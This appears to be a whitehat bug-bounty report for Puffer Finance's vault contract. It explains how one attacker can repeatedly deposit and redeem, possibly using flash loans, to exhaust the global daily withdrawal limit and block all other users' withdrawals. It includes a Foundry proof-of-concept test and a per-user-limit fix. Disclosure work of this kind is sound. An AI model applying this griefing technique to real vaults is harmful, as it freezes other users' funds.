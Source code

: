 # Attacker Prevents All Users From Withdrawing Funds by Exploiting The Daily Withdrawal Limit

Submitted 2 months ago by @oyk (Whitehat) for Boost | Puffer Finance

Report ID: #28645

Report type: Smart Contract

Has PoC? Yes

Target: Primacy of Impact

# Impacts
- Temporary freezing of funds for at least 1 hour

# Details

# Vulnerability Details
In the `PufferVaultMainnetcontract`, an attacker (who might potentially be a Puffer's competitor) can exploit the daily withdrawal limit by repeatedly depositing then withdrawing assets from the vault, deliberately making `_getPufferVaultStorage().assetsWithdrawnToday = _getPufferVaultStorage().dailyAssetsWithdrawalLimit` and `getRemainingAssetsDailyWithdrawalLimit() = 0`. This can be achieved using their own funds or funds obtained via a flash loan.

Even if the protocol raises the daily withdrawal limit, the attacker still can persist in exploiting this vulnerability until the daily limit is reached again. If the protocol then raises the daily limit to be unlimited, the attacker will continue depositing stETH and withdrawing WETH from the vault till when the liquidity of WETH and ETH in the vault is 0, resulting in all users of the protocol being unable to withdraw their assets from the vault.

# Impact Details
All funds deposited by users into the vault become inaccessible for withdrawal.

# Recommendation
It is recommended to implement a daily withdrawal limit for every user (on a user level) to mitigate the risk of this vulnerability.

# Proof of concept
```
    // forge t --mt test_attacker_causes_freezing_of_funds -vvvv
    function test_attacker_causes_freezing_of_funds()
        public
        giveToken(BLAST_DEPOSIT, address(stETH), alice, 1000 ether)
        giveToken(BLAST_DEPOSIT, address(stETH), bob, 1000 ether)
        giveToken(MAKER_VAULT, address(_WETH), dave, 51 ether)
    {
        // Pre-mainnet version
        // Alice and Bob deposited 1k ETH
        vm.startPrank(alice);
        SafeERC20.safeIncreaseAllowance(
            IERC20(stETH),
            address(pufferVault),
            type(uint256).max
        );
        pufferVault.deposit(1000 ether, alice);

        vm.startPrank(bob);
        SafeERC20.safeIncreaseAllowance(
            IERC20(stETH),
            address(pufferVault),
            type(uint256).max
        );
        pufferVault.deposit(1000 ether, bob);

        // Upgraded to mainnet
        _upgradeToMainnetPuffer();

        // Dave - the attacker purposely deposits and withdraws assets so that the daily withdrawal limit is reached, causes freezing of funds
        vm.startPrank(dave);
        SafeERC20.safeIncreaseAllowance(
            _WETH,
            address(pufferVault),
            type(uint256).max
        );
        uint256 pufETHMintedFirst = pufferVault.deposit(50 ether, dave);

        PufferVaultMainnet(payable(address(pufferVault))).redeem(
            pufETHMintedFirst,
            dave,
            dave
        );
        uint256 pufETHMintedSecond = pufferVault.deposit(50 ether, dave);
        PufferVaultMainnet(payable(address(pufferVault))).redeem(
            pufETHMintedSecond,
            dave,
            dave
        );

        // Alice now can't withdaw
        vm.startPrank(alice);
        vm.expectRevert();
        pufferVault.withdraw(10 ether, alice, alice);
    }
```
